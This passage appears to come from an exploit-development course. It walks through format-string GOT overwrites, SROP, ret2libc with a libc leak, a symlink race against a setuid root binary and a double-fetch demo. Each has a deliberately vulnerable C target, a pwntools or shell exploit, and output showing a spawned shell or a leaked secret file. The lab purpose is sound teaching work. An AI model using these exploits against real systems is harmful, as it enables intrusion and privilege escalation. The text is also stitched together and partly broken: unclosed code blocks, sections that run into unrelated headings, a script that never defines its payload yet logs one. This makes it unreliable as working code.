    write_size='short'  # Use %hn (2-byte writes) - often more reliable
)

p = process(binary)
p.send(payload)
p.interactive()
```

**Test Results**:

```text
...
[+] Starting local process './vuln_fmt': pid 2759
[*] Switching to interactive mode
You won!
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$
[*] Interrupted
[*] Stopped process './vuln_fmt' (pid 2759)
```

**Manual fmtstr_payload Success**:

- **Direct approach worked**: Used `fmtstr_payload()` instead of `execute_writes()`
- **Shell achieved**: "You won!" message and interactive shell
- **write_size='short'**: Used `%hn` (2-byte writes) for reliability
- **Interactive mode**: Properly handled program that doesn't exit after exploitation

**Format String + Libc Leak Pattern (ASLR Bypass)**:

```python
#!/usr/bin/env python3
#~/exploit/27.py
"""
Complete format string exploit with ASLR bypass (AMD64)
Pattern: Leak → Calculate → Overwrite
"""
from pwn import *

binary = './vuln_fmt'
elf = ELF(binary)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.binary = elf

def send_fmt(payload):
    p = process(binary)
    p.send(payload)
    output = p.recvall()
    p.close()
    return output

# __libc_start_main+XXX is commonly at offset 33 on our system

leak_offset = 33  # Set to 33 based on GDB debugging
leak = send_fmt(f'%{leak_offset}$p'.encode())
libc_leak = int(leak.decode().strip(), 16)
log.info(f"Leaked: {hex(libc_leak)}")

# The leak is __libc_start_main + 122 (0x7...2a1ca)
libc_offset_constant = 0x2a1ca # Found via GDB
libc.address = libc_leak - libc_offset_constant
log.success(f"Libc base: {hex(libc.address)}")

# Verify base is page-aligned
assert libc.address & 0xfff == 0, "Bad libc base calculation!"

# Find one_gadget: one_gadget /lib/x86_64-linux-gnu/libc.so.6
one_gadget = libc.address + 0xe3b01  # ADJUST - run one_gadget tool!

# We know the offset is 6 (stdin based)
offset = 6
payload = fmtstr_payload(offset, {elf.got['exit']: one_gadget})

p = process(binary)
p.send(payload)
p.interactive()
```

**Test Results**:

```text
...
[+] Starting local process './vuln_fmt': pid 2769
[+] Receiving all data: Done (14B)
[*] Process './vuln_fmt' stopped with exit code 0 (pid 2769)
[*] Leaked: 0x77d09f42a1ca
[+] Libc base: 0x77d09f400000
[+] Starting local process './vuln_fmt': pid 2772
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ id
[*] Process './vuln_fmt' stopped with exit code -11 (SIGSEGV) (pid 2772)
[*] Got EOF while sending in interactive
```

**ASLR Bypass + One_Gadget Issues**:

- **Libc leak successful**: `0x77d09f42a1ca` → base `0x77d09f400000`
- **One_gadget problem**: `0xe3b01` offset caused crash (SIGSEGV)
- **Root cause**: Wrong one_gadget offset for this libc version/system
- **Solution**: Run `one_gadget /lib/x86_64-linux-gnu/libc.so.6` to find working offsets

**Key Lessons**:

1. **FmtStr.execute_writes()**: Not suitable for interactive shells - use `fmtstr_payload()` directly
2. **One_gadget offsets**: System-specific, must be recalculated for each libc version
3. **Manual approach**: `fmtstr_payload()` with `write_size='short'` is most reliable
4. **ASLR bypass**: Libc leak + base calculation works perfectly

### Format String Protection Mechanisms

**Fortify Source** (`-D_FORTIFY_SOURCE=2`):

- Checks format string at compile time
- Warns on non-literal format strings
- Adds runtime checks

```c
// Caught by fortify
printf(user_input);  // Compile warning

// Also caught
char fmt[100];
strcpy(fmt, user_input);
printf(fmt);  // Runtime error
```

**Mitigations**:

- Always use literal format strings: `printf("%s", input)`
- Enable compiler warnings: `-Wformat -Wformat-security`
- Use fortify source: `-D_FORTIFY_SOURCE=2`
- Static analysis tools: scan for printf(user_controlled)

### SROP (Sigreturn-Oriented Programming) Explained

**What is SROP?**:

- Uses the `sigreturn` syscall to set all registers at once
- `sigreturn` restores register state from a "signal frame" on stack
- Attacker provides fake signal frame with controlled register values
- Single syscall sets RAX, RDI, RSI, RDX, RIP, RSP, etc.

**Why Use SROP?**:

- Tiny Binaries: In statically linked binaries or small containers, you might not have enough gadgets for a full `pop rdi; ret` chain. SROP only needs `syscall; ret`.
- Gadget Scarcity: If CET blocks complex ROP chains, SROP (which does context switching in kernel space) can sometimes simplify the userspace requirements.
- One-Shot Setup: It sets RDI, RSI, RDX, and RAX simultaneously. No need to hunt for elusive `pop rdx` gadgets.
- Sets ALL registers in one operation (including RBP for one_gadget!)
- Useful when gadgets are scarce
- **Bypasses CET!** Syscall-based approach doesn't use libc functions

> [!NOTE]
> **SROP vs one_gadget on modern libc**: SROP uses direct syscalls, bypassing libc
> entirely. This avoids CET issues that plague libc function calls. If one_gadget
> fails due to CET constraints, SROP is an excellent alternative.

**Signal Frame Structure** (simplified x64):

```c
struct sigcontext {
    uint64_t r8, r9, r10, r11, r12, r13, r14, r15;
    uint64_t rdi, rsi, rbp, rbx, rdx, rax, rcx, rsp, rip;
    uint64_t eflags;
    // ... more fields
};
```

**SROP Exploit Flow**:

1. Overflow buffer
2. Set return address to sigreturn gadget
3. Place fake signal frame on stack with:
   - `RAX = 59 (execve syscall number)`
   - `RDI = address of "/bin/sh"`
   - `RSI = 0 (NULL)`
   - `RDX = 0 (NULL)`
   - `RIP = syscall gadget`
4. sigreturn loads all registers from fake frame
5. Execution continues at RIP (syscall)
6. execve("/bin/sh", NULL, NULL) executed

**SROP with pwntools**:

**Target Source (`vuln_srop.c`)**:

```c
// Compile: make disabled SOURCE=vuln_srop.c BINARY=vuln_srop
// Note: -fcf-protection=none is REQUIRED to disable Intel CET (Shadow Stack) which blocks SROP
#include <stdio.h>
#include <unistd.h>

char binsh[] = "/bin/sh";

// Explicitly include gadgets for the exercise
void gadgets() {
    __asm__ volatile(
        "pop %rax; ret\n"
        "syscall\n"
        "ret\n"
    );
}

void vuln() {
    char buffer[64];
    write(1, "Enter input: ", 13);
    read(0, buffer, 512); // Large overflow
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

**Exploit Script**:

```python
#!/usr/bin/env python3
#~/exploit/exploit_srop.py
from pwn import *

context.arch = 'amd64'

binary = './vuln_srop'
elf = ELF(binary)
rop = ROP(elf)

# 1. Find Gadgets
try:
    pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
    syscall_ret = rop.find_gadget(['syscall', 'ret'])[0]
    log.info(f"pop rax @ {hex(pop_rax)}")
    log.info(f"syscall @ {hex(syscall_ret)}")
except:
    log.critical("Gadgets not found! Did you compile vuln_srop.c explicitly?")
    exit(1)

# 2. Find /bin/sh
try:
    binsh_addr = next(elf.search(b'/bin/sh'))
    log.info(f"/bin/sh @ {hex(binsh_addr)}")
except StopIteration:
    log.critical("/bin/sh not found in binary! Did you add the global string?")
    exit(1)

# 3. Build Frame
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret
frame.rsp = elf.bss() + 0x100 # Set valid stack pointer for stability

# 4. Construct Payload
offset = 72
payload = b'A' * offset
payload += p64(pop_rax)
payload += p64(constants.SYS_rt_sigreturn) # 15
payload += p64(syscall_ret)
payload += bytes(frame)

# Run
p = process(binary)
p.sendline(payload)
p.interactive()
```

**Test Results**:

```text
...
[*] Loading gadgets for '/home/dev/exploit/vuln_srop'
[*] pop rax @ 0x40114a
[*] syscall @ 0x40114c
[*] /bin/sh @ 0x404028
[+] Starting local process './vuln_srop': pid 2852
[*] Switching to interactive mode
Enter input: $ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

**SROP Exploit Success**:

- **Compilation**: Built with `-fcf-protection=none -z execstack` (CET disabled, executable stack)
- **Gadgets found**: `pop rax @ 0x40114a`, `syscall @ 0x40114c` (from inline assembly)
- **String located**: `/bin/sh @ 0x404028` (global variable in .data)
- **Shell achieved**: Interactive shell with full user privileges
- **Clean exit**: Process exits normally after shell session

**Key Technical Details**:

- **CET bypass**: `-fcf-protection=none` disables shadow stack/IBT protection
- **Executable stack**: `-z execstack` allows shellcode if needed
- **Inline gadgets**: Assembly provides reliable gadget addresses
- **Direct syscall**: Bypasses libc entirely, avoiding CET restrictions
- **Signal frame**: 248-byte structure sets all registers simultaneously

**When to Use SROP vs ROP**:

| Scenario                      | Use SROP | Use ROP |
| ----------------------------- | -------- | ------- |
| Few gadgets available         | x        |         |
| Need to set many registers    | x        |         |
| Simple function call          |          | x       |
| Binary has `sigreturn` gadget | x        |         |
| Need fine-grained control     |          | x       |

### ret2dlresolve Explained

**What is ret2dlresolve?**:

- Abuses the dynamic linker's lazy binding mechanism
- Forces linker to resolve ANY function, even if not imported
- Works even with Full RELRO (in some cases)
- No libc address leak required!

**How Lazy Binding Works**:

1. Program calls printf@plt
2. PLT jumps to GOT entry
3. First call: GOT points back to PLT
4. PLT calls `_dl_runtime_resolve(link_map, reloc_index)`
5. Resolver finds "printf" in libc, updates GOT
6. Future calls go directly to libc printf

**ret2dlresolve Attack**:

1. Craft fake Elf_Rel structure (relocation entry)
2. Craft fake Elf_Sym structure (symbol entry)
3. Craft fake string "system"
4. Call `_dl_runtime_resolve` with fake `reloc_index`
5. Resolver "resolves" our fake "system" symbol
6. system("/bin/sh") gets called!

**ret2libc with Leak**:

Instead of ret2dlresolve, most real exploits use a two-stage approach:

```c
// leak_target.c - Compile: gcc -fno-stack-protector -no-pie -o leak_target leak_target.c
#include <stdio.h>
#include <unistd.h>

// Add pop rdi gadget for ret2libc
__attribute__((noinline)) void gadgets() {
    __asm__ volatile(
        ".global pop_rdi_ret\n"
        "pop_rdi_ret:\n"
        "pop %rdi\n"
        "ret\n"
    );
}

void vuln() {
    char buf[64];

    // Stage 1: Leak libc address (common in real vulnerabilities)
    printf("puts@GOT: %p\n", puts);
    printf("printf@GOT: %p\n", printf);

    // Stage 2: Buffer overflow
    printf("Enter data: ");
    read(0, buf, 256);
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("=== ret2libc with Leak Demo ===\n");
    vuln();

    return 0;
}
```

```python
#!/usr/bin/env python3
#~/exploit/ret2libc.py
"""
ret2libc with leak - Automatic gadget discovery
No hardcoded addresses - finds everything dynamically
"""
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

binary = './leak_target'
elf = ELF(binary)
rop = ROP(elf)

# Find libc
try:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
except:
    try:
        libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
    except:
        log.error("Could not find libc. Adjust path in script.")
        exit(1)

p = process(binary)

# Stage 1: Get leak
p.recvuntil(b"puts@GOT: ")
puts_addr = int(p.recvline().strip(), 16)
log.info(f"Leaked puts: {hex(puts_addr)}")

# Calculate libc base
libc.address = puts_addr - libc.symbols['puts']
log.success(f"libc base: {hex(libc.address)}")
log.info(f"system: {hex(libc.symbols['system'])}")

binsh = next(libc.search(b'/bin/sh'))
log.info(f"/bin/sh: {hex(binsh)}")

# Find pop rdi gadget
try:
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    log.success(f"pop rdi; ret: {hex(pop_rdi)}")
except:
    log.error("Could not find 'pop rdi; ret' gadget")
    exit(1)

# Find ret gadget for alignment
try:
    ret = rop.find_gadget(['ret'])[0]
    log.success(f"ret: {hex(ret)}")
except:
    log.error("Could not find 'ret' gadget")
    exit(1)

# Call system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(libc.symbols['system'])

log.info(f"Payload size: {len(payload)} bytes")

p.sendlineafter(b"Enter data: ", payload)

log.success("Exploit sent! Checking for shell...")

sleep(0.5)

try:
    p.sendline(b'echo SUCCESS')
    response = p.recvline(timeout=2)
    if b'SUCCESS' in response:
        log.success("Shell spawned!")
        p.interactive()
    else:
        log.info(f"Got: {response}")
        p.interactive()
except EOFError:
    log.error("Process died")
    log.info(f"Exit code: {p.poll()}")
except Exception as e:
    log.error(f"Error: {e}")
    p.close()
```

**Test Results**:

```text
...
[+] Starting local process './leak_target': pid 2893
[*] Leaked puts: 0x7d2ad6887be0
[+] libc base: 0x7d2ad6800000
[*] system: 0x7d2ad6858750
[*] /bin/sh: 0x7d2ad69cb42f
[*] Finding gadgets...
[+] pop rdi; ret: 0x40117e
[+] ret: 0x40101a
[*] Payload size: 104 bytes
[+] Exploit sent! Checking for shell...
[+] Shell spawned!
[*] Switching to interactive mode
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

**ret2libc with Leak Success**:

- **Binary analysis**: Partial RELRO, no PIE, no stack canary (vulnerable)
- **Libc detection**: Found system libc with Full RELRO and CET protections
- **Leak successful**: `puts@GOT: 0x7d2ad6887be0` → base `0x7d2ad6800000`
- **Gadgets found**: `pop rdi; ret @ 0x40117e`, `ret @ 0x40101a` (from inline assembly)
- **Targets calculated**: `system @ 0x7d2ad6858750`, `/bin/sh @ 0x7d2ad69cb42f`
- **Shell achieved**: Interactive shell with full user privileges
- **Payload efficiency**: 104 bytes total (72 offset + 32 ROP chain)

**Key Technical Insights**:

- **CET compatibility**: Despite SHSTK/IBT being enabled, ret2libc works because we use legitimate gadgets
- **Automatic discovery**: pwntools dynamically finds gadgets and calculates addresses
- **Two-stage approach**: Leak → Calculate → Exploit pattern works reliably
- **Stack alignment**: Added `ret` gadget for 16-byte alignment before `pop rdi`
- **Modern mitigations**: NX enabled prevents shellcode, but ROP bypasses this restriction

**ret2dlresolve Requirements**:

- Partial RELRO (lazy binding enabled)
- Ability to write to known address (for fake structures)
- Sufficient gadgets (pop rdi, pop rsi, pop rdx minimum)
- Compatible libc/dynamic linker version

**Reality Check**:

In practice, **ret2libc with leak is used in 90%+ of real exploits** because:

- More reliable across libc versions
- Simpler to implement and debug
- Works with modern mitigations
- Most vulnerabilities provide some leak (format string, heap, etc.)

ret2dlresolve is mainly useful for:

- CTF challenges that specifically block leaks
- Research and educational purposes
- Very constrained scenarios with no leak primitive

### one_gadget - Quick Shell Gadgets

**What is one_gadget?**:

- Finds "magic gadgets" in libc that spawn shells with single jump
- Much faster than building full ROP chains
- Constraints must be satisfied (register/stack state)

**Usage**:

```bash
one_gadget /lib/x86_64-linux-gnu/libc.so.6

#### Exercise: The Challenge (fmt_challenge.c)\*\*

The goal is to modify the `secret_code` variable to `0x1337` to unlock the shell.
This program runs in a loop, allowing you to test multiple format strings in one session.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

volatile int secret_code = 0;

void give_shell() {
    printf("Access Granted! Spawning shell...\n");
    system("/bin/sh");
}

void vuln_func() {
    char buffer[256];

    printf("Target variable is at %p. Current value: %d\n", &secret_code, secret_code);

    while(secret_code != 0x1337) {
        printf("\nEnter input (type 'quit' to exit): ");
        memset(buffer, 0, sizeof(buffer));
        int len = read(0, buffer, sizeof(buffer)-1);

        if(strncmp(buffer, "quit", 4) == 0) break;

        // Vulnerability: Format string
        printf("You returned: ");
        printf(buffer);

        if (secret_code == 0x1337) {
            give_shell();
            break;
        }
    }
}

int main() {
    // Disable buffering
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    vuln_func();
    return 0;
}
```

**Compile**:

```bash
make disabled SOURCE=fmt_challenge.c BINARY=fmt_challenge
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none -Wno-format-security fmt_challenge.c -o fmt_challenge
```

**Testing & Offset Finding**

```bash

#### Exercise: Bypassing libc with execve Syscall (SROP)

**Why This Matters**: On modern systems with CET (glibc 2.34+), `system()` via ROP crashes due to IBT/Shadow Stack checks on libc functions. This exercise shows how to bypass libc entirely using a direct `execve` syscall via SROP.

**Vulnerable Program**:

```c
// srop_target.c - Compile: gcc -fno-stack-protector -no-pie -o srop_target srop_target.c
#include <stdio.h>
#include <unistd.h>

char binsh[] = "/bin/sh";  // String in .data for convenience

// Include gadgets to make the exercise standalone and reliable
__attribute__((noinline)) void gadgets() {
    __asm__ volatile(
        ".global pop_rax_ret\n"
        "pop_rax_ret:\n"
        "pop %rax\n"
        "ret\n"
        ".global syscall_ret\n"
        "syscall_ret:\n"
        "syscall\n"
        "ret\n"
    );
}

void vuln() {
    char buf[64];
    printf("Buffer at: %p\n", buf);
    printf("Enter data: ");
    read(0, buf, 512);  // Obvious overflow - increased for SROP frame
}

int main() {
    // Disable buffering for reliable I/O
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

**Finding Required Gadgets**:

```bash

# 2. syscall; ret  - to execute sigreturn, then execve

ropper --file srop_target --search "pop rax"
ropper --file srop_target --search "syscall"

# Since we included them in C, they will be found!
```

**Complete SROP Exploit (No libc Required)**:

```python
#!/usr/bin/env python3
"""
SROP Exploit
"""
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

binary = './srop_target'
elf = ELF(binary)

p = process(binary, aslr=False)

p.recvuntil(b"Buffer at: ")
buf_addr = int(p.recvline().strip(), 16)
log.info(f"Buffer at: {hex(buf_addr)}")

binsh_addr = next(elf.search(b'/bin/sh'))
pop_rax_ret = 0x40117e
syscall_ret = 0x401180  # CORRECT address

log.info(f"/bin/sh at: {hex(binsh_addr)}")
log.info(f"pop rax; ret: {hex(pop_rax_ret)}")
log.info(f"syscall; ret: {hex(syscall_ret)}")

# Build SROP frame
frame = SigreturnFrame()
frame.rax = 59  # execve
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret
frame.rsp = buf_addr - 0x100
frame.rbp = frame.rsp
frame.eflags = 0x202
frame.csgsfs = 0x33

offset = 72
payload = b'A' * offset
payload += p64(pop_rax_ret)
payload += p64(15)  # SYS_rt_sigreturn
payload += p64(syscall_ret)
payload += bytes(frame)

log.info(f"Payload size: {len(payload)} bytes")

p.sendlineafter(b"Enter data: ", payload)

sleep(0.5)

try:
    p.sendline(b'echo SUCCESS')
    result = p.recvline(timeout=2)
    if b'SUCCESS' in result:
        log.success("SROP WORKED! We have a shell!")
        p.interactive()
    else:
        log.info(f"Got: {result}")
        p.interactive()
except EOFError:
    log.error("Process died")
    log.info(f"Exit code: {p.poll()}")
except Exception as e:
    log.error(f"Error: {e}")
    p.close()
```

**How It Works**:

```text
1. Overflow buffer, overwrite return address with pop_rax gadget
2. pop rax; ret → RAX = 15 (rt_sigreturn syscall number)
3. syscall; ret → Kernel executes sigreturn
4. Kernel reads our fake SigreturnFrame from stack
5. Kernel restores ALL registers from our frame:
   - RAX = 59 (execve syscall number)
   - RDI = address of "/bin/sh"
   - RSI = 0, RDX = 0
   - RIP = syscall gadget address
6. Execution resumes at RIP (syscall gadget) - bypassing libc!
```

**Why This Bypasses CET (Partially)**:

```text
CET (Control-flow Enforcement) has two components:
1. IBT (Indirect Branch Tracking) - Requires ENDBR64 landing pads
2. SHSTK (Shadow Stack) - Tracks return addresses

SROP behavior with CET:
+ sigreturn itself bypasses shadow stack (kernel operation)
+ execve syscall is direct kernel call, not libc
- Initial ROP chain to reach sigreturn still needs valid gadgets

Note: On systems without hardware shadow stack support (most current CPUs),
the binary may have SHSTK/IBT properties but kernel won't enforce them.
Check with: grep shstk /proc/cpuinfo
```

**Troubleshooting**:

| Problem                    | Cause                     | Solution                                       |
| -------------------------- | ------------------------- | ---------------------------------------------- |
| Crash before sigreturn     | Wrong gadget addresses    | Use `objdump -d` to verify gadget locations    |
| Payload too large          | Signal frame is 248 bytes | Ensure read() size ≥ 344 bytes (72+24+248)     |
| SIGSEGV after sigreturn    | Invalid RSP in frame      | Set RSP to valid stack address (use buf_addr)  |
| execve returns EFAULT      | Bad /bin/sh address       | Verify string address with `readelf -x .data`  |
| No gadgets found           | Binary too small          | Add inline asm gadgets or use libc             |
| Shell doesn't spawn        | Wrong syscall number      | AMD64 execve = 59, verify with `SYS_execve`    |
| system() crashes (SIGSEGV) | Stack misalignment        | Add `ret` gadget before call for 16-byte align |
| Process exits immediately  | Shell has no stdin        | Ensure stdin is connected to process           |
| CET blocks ROP chain       | Hardware shadow stack     | Use ENDBR64 gadgets or disable CET for demo    |

#### Exercise: vuln_fmt

**Task 1**: Information Disclosure

1. Compile vuln_fmt.c
2. Find format string offset
3. Leak stack values
4. Identify libc addresses on stack
5. Calculate libc base (if ASLR enabled)

**Task 2**: Arbitrary Read

1. Read memory at arbitrary address
2. Leak binary strings
3. Find interesting addresses (GOT entries)
4. Document memory layout

**Task 3**: GOT Overwrite

1. Compile fmt_got.c
2. Find exit() GOT entry
3. Find win() function address
4. Overwrite GOT with format string
5. Redirect exit() to win()
6. Get shell

**Success Criteria**:

- Can read arbitrary memory
- Can write arbitrary values
- GOT overwrite successful
- Shell obtained via format string

#### Exercise: format string over network

Exploit a format string over a network:

```python
#!/usr/bin/env python3
"""Format String over Network - Real-World Practice"""
from pwn import *

# Leak stack values
target.sendline(b'echo %p.%p.%p.%p.%p.%p.%p.%p')
leak = target.recvline()
log.info(f"Leaked: {leak}")

### Key Takeaways

1. **Format strings are powerful**: Read/write arbitrary memory
2. **%n is dangerous**: Enables memory writes
3. **GOT is common target**: Redirect execution flow - **bypasses CET!**
4. **pwntools simplifies exploitation**: Automates offset finding
5. **Easy to prevent**: Just use printf("%s", input)
6. **one_gadget works well with GOT overwrites**: RBP usually valid, constraints easier
7. **SROP bypasses CET entirely**: Direct syscalls don't use libc

### Discussion Questions

1. Why is %n particularly dangerous compared to other specifiers?
2. How does Partial RELRO vs Full RELRO affect GOT overwrites?
3. What makes format strings easier to exploit than buffer overflows?
4. How can static analysis detect format string vulnerabilities?

## Day 6: Logic Bugs and Modern Exploit Primitives

- **Goal**: Understand non-memory-corruption exploitation and modern primitives that bypass traditional mitigations.
- **Activities**:
  - _Reading_:
    - [TOCTTOU Vulnerabilities](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
    - [Type Confusion Vulnerabilities](https://cwe.mitre.org/data/definitions/843.html)
  - _Online Resources_:
    - [Race Conditions in Web Applications](https://portswigger.net/research/smashing-the-state-machine)
    - [Data-Only Attacks](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-hu.pdf)
  - _Exercise_:
    - Exploit a race condition vulnerability
    - Trigger a type confusion bug
    - Understand when logic bugs are more practical than memory corruption

### Deliverables

- **Race PoC**: a script that wins the race at least once and demonstrates the impact (e.g., reads forbidden data)
- **Type confusion PoC**: input + steps that trigger the bug and show corrupted behavior or a privileged action
- **Notes**: explain the broken invariant and why mitigations (NX/ASLR/CET) don't stop it

### Why Logic Bugs Matter

**Why Logic Bugs Win**:

- **Mitigations don't apply**: DEP, ASLR, CFG, CET protect memory—not logic
- **Often simpler**: No shellcode, no ROP chains, no heap feng shui
- **Higher reliability**: Deterministic vs probabilistic exploitation
- **Stealthier**: Less anomalous behavior for detection

### Race Condition Exploitation

**TOCTTOU (Time-of-Check to Time-of-Use)**:

```c
// Vulnerable pattern: Check and use are separate operations
// race_vuln.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>

void process_file(const char *filename) {
    struct stat st;

    // TIME OF CHECK
    if (lstat(filename, &st) != 0) {  // Use lstat to check symlink itself
        printf("File does not exist\n");
        return;
    }

    // Check if regular file (not symlink)
    if (S_ISLNK(st.st_mode)) {
        printf("Symlinks not allowed\n");
        return;
    }

    // Check ownership
    if (st.st_uid != getuid()) {
        printf("You don't own this file\n");
        return;
    }

    // WINDOW OF VULNERABILITY: Attacker can swap file here!
    sleep(1);  // Makes race easier to win for demonstration

    // TIME OF USE - opens with elevated privileges
    setuid(0);  // Elevate to root privileges

    int fd = open(filename, O_RDONLY);  // Opens whatever is there NOW
    if (fd < 0) {
        perror("open");
        return;
    }

    char buffer[1024];
    ssize_t n = read(fd, buffer, sizeof(buffer) - 1);
    if (n > 0) {
        buffer[n] = '\0';
        printf("Contents: %s\n", buffer);
    }
    close(fd);
}

int main(int argc, char **argv) {
    if (argc < 2) {
        printf("Usage: %s <filename>\n", argv[0]);
        return 1;
    }
    process_file(argv[1]);
    return 0;
}
```

**Exploitation**:

```bash

# Compile vulnerable program
cd ~/exploit
gcc -fno-stack-protector -no-pie -o race_vuln race_vuln.c
sudo chown root:root race_vuln
sudo chmod u+s race_vuln  # SetUID for demonstration

# Setup: Create files for the race
echo "harmless content" > /tmp/myfile
sudo sh -c 'echo "SECRET: root password hash" > /tmp/secret'
sudo chown root:root /tmp/secret
sudo chmod 600 /tmp/secret  # Only root can read

# Create race attack script
cat > race_attack_full.sh << 'EOF'
#!/bin/bash
TARGET="/tmp/racefile"
PAYLOAD="/tmp/secret"  # Root-owned file we want to read

# Note: Symlinks must be created with sudo due to protected_symlinks in /tmp
(while true; do
    sudo rm -f $TARGET 2>/dev/null
    cp /tmp/myfile $TARGET 2>/dev/null
    sudo rm -f $TARGET 2>/dev/null
    sudo ln -s $PAYLOAD $TARGET 2>/dev/null
done) &
SWAP_PID=$!

# Foreground: Repeatedly trigger vulnerable program
for i in {1..50}; do
    ./race_vuln $TARGET 2>/dev/null
done | grep "SECRET"

# Cleanup
sudo kill $SWAP_PID 2>/dev/null
wait $SWAP_PID 2>/dev/null
sudo rm -f $TARGET
EOF
chmod +x race_attack_full.sh

# by setuid programs. This is a security feature to prevent symlink attacks.
```

**Test Results**:

```text
(.venv) dev@os:~/exploit$ ./race_attack_full.sh
Contents: SECRET: root password hash
Contents: SECRET: root password hash
Contents: SECRET: root password hash
```

**TOCTTOU Race Success**:

- **Setup complete**: SetUID binary created with root ownership and permissions
- **Attack automation**: Background script continuously swaps files between safe and malicious
- **Race won multiple times**: Successfully read root-owned secret file 3 times
- **Privilege escalation**: Bypassed file ownership and permission checks
- **Protected symlinks**: Required sudo for symlink creation due to modern Linux protections

**Why This Works**:

1. **Time window**: `sleep(1)` in vulnerable code creates race opportunity
2. **File swap**: Rapid switching between legitimate file and malicious symlink
3. **Check vs use**: Security checks performed on safe file, but opens malicious one
4. **Privilege escalation**: SetUID binary runs with root privileges during file open
5. **Modern mitigations**: Protected symlinks require root ownership, but race still works

**User-Space Double-Fetch Simulation**:

```c
// double_fetch_demo.c
// Compilable double-fetch vulnerability demonstration
// Compile: gcc -pthread -o double_fetch_demo double_fetch_demo.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <pthread.h>
#include <unistd.h>
#include <stdatomic.h>

#define MAX_SAFE_SIZE 64
#define BUFFER_SIZE 128

// Shared structure (simulating user-space memory that can be modified)
typedef struct {
    volatile size_t length;
    char data[256];
} SharedRequest;

SharedRequest shared_req;
atomic_int race_won = 0;
atomic_int attempts = 0;

// Vulnerable function with double-fetch
void vulnerable_process(SharedRequest *req) {
    // FIRST FETCH: Read and validate length
    size_t len = req->length;  // First read

    if (len > MAX_SAFE_SIZE) {
        // Security check passes because len is small
        return;
    }

    // Allocate based on checked length
    char *safe_buffer = malloc(len + 1);
    if (!safe_buffer) return;

    // VULNERABILITY: Small delay simulating real processing
    // In real code, this might be context switches, I/O, etc.
    for (volatile int i = 0; i < 100; i++);  // Tiny delay

    // SECOND FETCH: Use length again (may have changed!)
    size_t actual_len = req->length;  // Second read - DOUBLE FETCH!

    // Check if race was won BEFORE doing the overflow
    if (actual_len > MAX_SAFE_SIZE) {
        printf("[!] RACE WON! Allocated %zu bytes but would copy %zu bytes!\n",
               len, actual_len);
        printf("[!] Buffer overflow vulnerability demonstrated!\n");
        atomic_store(&race_won, 1);
        free(safe_buffer);
        return;
    }

    // Copy using potentially modified length
    if (actual_len <= 256) {
        memcpy(safe_buffer, req->data, actual_len);  // OVERFLOW if length increased!
    }

    free(safe_buffer);
}

// Attacker thread: continuously flips the length value
void *attacker_thread(void *arg) {
    while (!atomic_load(&race_won) && atomic_load(&attempts) < 100000) {
        // Flip between safe and dangerous values
        shared_req.length = 32;   // Safe value (passes check)
        for (volatile int i = 0; i < 10; i++);
        shared_req.length = 200;  // Dangerous value (causes overflow)
        for (volatile int i = 0; i < 10; i++);
    }
    return NULL;
}

// Victim thread: calls vulnerable function
void *victim_thread(void *arg) {
    while (!atomic_load(&race_won) && atomic_load(&attempts) < 100000) {
        shared_req.length = 32;  // Reset to safe
        vulnerable_process(&shared_req);
        atomic_fetch_add(&attempts, 1);
    }
    return NULL;
}

int main() {
    printf("=== Double-Fetch Race Condition Demo ===\n");
    printf("Attempting to win race between check and use...\n\n");

    // Initialize shared data
    memset(shared_req.data, 'A', sizeof(shared_req.data));
    shared_req.length = 32;

    pthread_t attacker, victim;

    // Start racing threads
    pthread_create(&attacker, NULL, attacker_thread, NULL);
    pthread_create(&victim, NULL, victim_thread, NULL);

    // Wait for completion
    pthread_join(victim, NULL);
    pthread_join(attacker, NULL);

    printf("\nTotal attempts: %d\n", atomic_load(&attempts));

    if (atomic_load(&race_won)) {
        printf("[+] SUCCESS: Double-fetch vulnerability exploited!\n");
        printf("[*] The vulnerability: length was checked as %d bytes, but would have\n", MAX_SAFE_SIZE);
        printf("    copied more, causing heap overflow.\n");
        printf("[*] In real exploits: this could overwrite heap metadata,\n");
        printf("    adjacent objects, or function pointers for code execution.\n");
    } else {
        printf("[-] Race not won in %d attempts (try again or increase attempts)\n",
               atomic_load(&attempts));
    }

    return 0;
}
```

**Compile and Run**:

```bash

# Run (may need multiple attempts)
./double_fetch_demo
```

**Test Results**:

```text
=== Double-Fetch Race Condition Demo ===
Attempting to win race between check and use...

[!] RACE WON! Allocated 32 bytes but would copy 200 bytes!
[!] Buffer overflow vulnerability demonstrated!

Total attempts: 863
[+] SUCCESS: Double-fetch vulnerability exploited!
[*] The vulnerability: length was checked as 64 bytes, but would have
    copied more, causing heap overflow.
[*] In real exploits: this could overwrite heap metadata,
